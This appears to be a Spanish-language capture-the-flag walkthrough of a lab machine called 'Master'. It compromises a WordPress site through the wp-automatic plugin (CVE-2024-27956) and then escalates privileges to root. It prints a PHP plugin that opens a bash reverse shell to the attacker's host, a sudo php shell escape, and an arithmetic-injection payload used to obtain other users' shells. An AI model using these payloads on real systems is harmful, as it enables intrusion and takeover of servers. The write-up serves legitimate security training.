 # MÁQUINA MASTER

Lo primero que deberemos de hacer será escanear los posibles puertos que se encuentre abiertos en la máquina:

```shell 
nmap -p- --open -sS -sC -sV -vvv --min-rate 5000 -Pn 172.17.0.2
```
![NMAP](https://github.com/Isma-yo/photos/blob/main/Master/foto.png)

Vemos que únicamente tiene abierto un puerto, el 80, por lo que vamos a ver que hay en la página web:

![HOME](https://github.com/Isma-yo/photos/blob/main/Master/foto2.png)

No hay mucha cosa interesante, en el código fuente tampoco encontramos nada, sin embargo, podemos observar en la parte de abajo que nos dice que está utilizando wp-automatic 3.92.0, tendremos esto en cuenta ya que nos servirá en un futuro. Al no encontrar nada relevante realizaremos fuzzing web con gobuster:

```shell 
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt
```

![GOBUSTER](https://github.com/Isma-yo/photos/blob/main/Master/foto3.png)

Vemos que cuenta con un wordpress (lo podíamos deducir por el wp-automatic de antes también). Si nos poníamos encima de alguno de los diferentes cursos que había veíamos que había un usuario “Mario”, por lo que lo normal sería intentar obtener su contraseña y entrar al panel de administración de Wordpress, os adelanto que no es la solución ya que lo intente y no conseguí obtener su contraseña.

Ahora es cuando entra en juego el wp-automatic de antes, si buscamos información acerca de esta versión en google acompañado de la palabra exploit vemos esto:

![WEB](https://github.com/Isma-yo/photos/blob/main/Master/foto4.png)

https://thehackernews.com/2024/04/hackers-exploiting-wp-automatic-plugin.html

Si accedemos a la web vemos que aparece un CVE que puede que podamos utilizar:

![WEB2](https://github.com/Isma-yo/photos/blob/main/Master/foto5.png)

Si buscamos el CVE en Google vemos que hay un exploit en github, así que vamos a probar si funciona:

https://github.com/diego-tella/CVE-2024-27956-RCE

Si seguimos los pasos que nos indica vemos que tras ejecutar el exploit nos crea un usuario con nombre “eviladmin” y con contraseña “admin”:

![CVE](https://github.com/Isma-yo/photos/blob/main/Master/foto6.png)

Intentamos acceder con el usuario que nos ha creado el exploit y ole, ya estamos dentro del panel de administración. Ahora vamos a intentar subir una reverse shell en forma de plugin:

![WP](https://github.com/Isma-yo/photos/blob/main/Master/foto7.png)

![WP2](https://github.com/Isma-yo/photos/blob/main/Master/foto8.png)

Una vez aquí vemos que unicamente nos deja subir archivos con extensión .zip, por lo que vamos a investigar como poder subir una reverse shell en .zip a un wordpress:

![WEB3](https://github.com/Isma-yo/photos/blob/main/Master/foto9.png)

https://sevenlayers.com/index.php/179-wordpress-plugin-reverse-shell

Dentro de la página copiamos el contenido que nos pone y lo metemos en un fichero con nombre reverse.php (puedes poner el que quieras).

```shell
<?php
/**
* Plugin Name: Reverse Shell Plugin
* Plugin URI:
* Description: Reverse Shell Plugin
* Version: 1.0
* Author: Vince Matteo
* Author URI: http://www.sevenlayers.com
*/
exec("/bin/bash -c 'bash -i >& /dev/tcp/172.17.0.1/443 0>&1'");
?>
```

![ZIP](https://github.com/Isma-yo/photos/blob/main/Master/foto10.png)

Una vez tenemos el archivo en .zip vamos a intentar subirlo a ver que ocurre:

![PLUGIN](https://github.com/Isma-yo/photos/blob/main/Master/foto11.png)

Vemos que se ha subido correctamente y que nos da la opción de activarlo, antes de activarlo debemos de ponernos en escucha por el puerto que hayamos configurado para poder recibir la reverse shell:

![PLUGIN](https://github.com/Isma-yo/photos/blob/main/Master/foto12.png)

Ya estamos dentro de la máquina, por lo que primero que debermeos de hacer será realizar un tratamiento de la tty:

```shell
script /dev/null -c bash
```

```shell
Control Z
```

```shell
stty raw -echo; fg
```

```shell
reset xterm
```

```shell
export TERM=xterm
```

```shell
export SHELL=bash
```

Si ejecutamos el comando sudo -l vemos que podemos ejecutar php como el usuario pylon, por lo que vamos a buscar como hacerlo en GTFOBins:

https://gtfobins.github.io/gtfobins/php/#sudo

```shell
sudo -u pylon php -r "system('/bin/bash');"
```

Una vez lo ejecutamos nos convertimos en el usuario pylon, ahora repetimos el proceso y vemos que podemos ejecutar un script como el usuario “mario”. Este script nos pide introducir un parámetro, por lo que podemos intentar introducir un /bin/bash para ver si obtenemos la bash como el usuario mario:

```shell
a[$(/bin/bash >&2)]
```
![EP](https://github.com/Isma-yo/photos/blob/main/Master/foto13.png)

Y ahí esta, somos el usuario mario. Ahora si ejecutamos de nuevo sudo -l vemos que podemos ejecutar otro script como root, ese script también nos pide un parámetro por lo que vamos a intentar reutilizar lo mismo que hemos hecho antes para obtener la escalada:

![EP2](https://github.com/Isma-yo/photos/blob/main/Master/foto14.png)
